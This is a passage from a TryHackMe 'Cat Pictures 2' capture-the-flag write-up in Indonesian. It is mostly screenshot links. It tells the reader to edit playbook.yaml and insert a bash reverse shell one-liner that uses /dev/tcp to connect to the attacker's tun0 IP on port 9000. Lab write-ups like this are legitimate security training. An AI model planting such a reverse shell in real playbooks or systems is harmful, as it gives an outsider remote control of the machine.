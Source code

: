 ![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2017.JPG)

- Edit file **playbook.yaml**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2018.png)

- Sisipan reverse shell pada bagian command dan sesuaikan dengan IP di komputer anda
```sh
bash -c "bash -i >& /dev/tcp/IP_tun0/9000 0>&1"
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Cat%20Pictures%202/assets/cp%2019.JPG)

